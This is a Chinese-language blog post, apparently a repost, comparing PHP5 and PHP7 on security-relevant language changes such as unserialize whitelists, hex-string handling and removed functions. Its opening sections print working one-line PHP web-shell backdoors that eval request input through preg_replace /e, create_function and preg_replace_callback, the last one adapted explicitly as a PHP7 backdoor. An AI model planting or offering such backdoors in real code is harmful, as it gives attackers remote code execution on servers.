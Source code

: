 ```yaml
---
layout: post
title: "[PHP] PHP7 和 PHP5 在安全上的區別"
date: 2019-03-18 00:00:02 +0800
categories: [security, php]
tags: [security, php]
---
```



## **PHP7 和 PHP5 在安全上的區別**

## **函數修改**
preg_replace()不再支持/e修飾符
```php
<?php
preg_replace("/.*/e",$_GET["h"],".");
?>
```

利用`\e`修飾符執行程式碼的後門大家也用了不少了，具體看官方的這段[描述](http://php.net/manual/zh/reference.pcre.pattern.modifiers.php):

>如果設置了這個被棄用的修飾符， preg_replace() 在進行了對替換字符串的後向引用替換之後,
>將替換後的字符串作為php 程式碼評估執行(eval 函數方式)，並使用執行結果作為實際參與替換的字符串。
>單引號、雙引號、反斜線()和 NULL 字符在 後向引用替換時會被用反斜線轉義.

很不幸，在PHP7以上版本不在支持`\e`修飾符，同時官方給了我們一個新的函數`preg_replace_callback`：

這裡我們稍微改動一下就可以利用它當我們的後門：

![1](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/1.png)

```php
<?php
preg_replace_callback("/.*/",function ($a){@eval($a[0]);},$_GET["h"]);
?>
```

---
## **create_function()被廢棄**
```php
<?php
$func =create_function('',$_POST['cmd']);$func();
?>
```

少了一種可以利用當後門的函數，實際上它是通過執行`eval`實現的。可有可無。


---

## **mysql_*系列全員移除**

如果你要在PHP7上面用老版本的mysql_*系列函數需要你自己去額外裝了，官方不在自帶，現在官方推薦的是mysqli或者pdo_mysql。


---

## **unserialize()增加一個可選白名單參數**


```php
$data = unserialize($serializedObj1 , ["allowed_classes" => true]);
$data2 = unserialize($serializedObj2 , ["allowed_classes" => ["MyClass1", "MyClass2"]]);
```

如果反序列數據裡面的類名不在這個白名單內，就會報錯。

![2](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/2.png)

可以是類名也可以是布爾數據，如果是`FALSE`就會將所有的對像都轉換為`__PHP_Incomplete_Class`對象。 `TRUE`是無限制。也可以傳入類名實現白名單。

---

## **assert()默認不在可以執行程式碼**

---

## **語法修改**
foreach不再改變內部陣列指針


```php
<?php
$a = array('1','2','3');
foreach ($a as $k=>&$n){
    echo "";
}
print_r($a);
foreach ($a as $k=>$n){
    echo "";

}
print_r($a);
```

這樣的程式碼在php5中，是這樣的執行結果

![3](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/3.png)

因為陣列最後一個元素的 $value 引用在 foreach 循環之後仍會保留，在第二個循環的時候實際上是對之前的指針不斷的賦值。
<br>
php7中通過值遍歷時，操作的值為陣列的副本，不在對後續操作進行影響。


## **8進製字符容錯率降低**

在php5版本，如果一個八進製字符如果含有無效數字，該無效數字將被靜默刪節。

```php
<?php
echo octdec( '012999999999999' ) . "\n";
echo octdec( '012' ) . "\n";
if (octdec( '012999999999999' )==octdec( '012' )){
        echo ": )". "\n";
}
```

比如這樣的程式碼在php5中的執行結果如下：

![4](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/4.png)

但是在php7裡面會觸發一個解析錯誤。

>這個問題同樣在PHP7.0.0以後的版本又被改回去了，只影響這一個版本。

---

## **十六進製字符串不再被認為是數字**

```php
<?php
var_dump("0x123" == "291");
var_dump(is_numeric("0x123"));
var_dump("0xe" + "0x1");
var_dump(substr("foo", "0x1"));
?>
```


以上程式碼在PHP5運行結果如下：
![5](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/5.png)


PHP7運行結果如下：

![6](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/6.png)


## **移除了 ASP 和 script PHP 標籤**


![7](https://raw.githubusercontent.com/dyeat/dyeat.github.io/master/static/img/2019-03-18/7.png)

現在只有`<?php ?>`這樣的標籤能在php7上運行了。


## **超大浮點數類型轉換截斷**
將浮點數轉換為整數的時候，如果浮點數值太大，導致無法以整數表達的情況下， 在PHP5的版本中，轉換會直接將整數截斷，並不會引發錯誤。在PHP7中，會報錯。


## **雜項**

>`exec()`, `system()` `passthru()`函數對 NULL 增加了保護.
>
>`list()`不再能解開字符串`string`變數
>
>`$HTTP_RAW_POST_DATA` 被移除
>
>`__autoload()` 方法被廢棄
>
>`parse_str()` 不加第二個參數會直接把字符串導入當前的符號表，如果加了就會轉換稱一個陣列。現在是第二個參數是強行選項了。
>
>統一不同平台下的整型長度
>
>`session_start()` 可以加入一個陣列覆蓋php.ini的配置


## **引用**
> [http://php.net/](http://php.net/)

## **文章來源:**
[https://www.freebuf.com/articles/web/197013.html](https://www.freebuf.com/articles/web/197013.html)
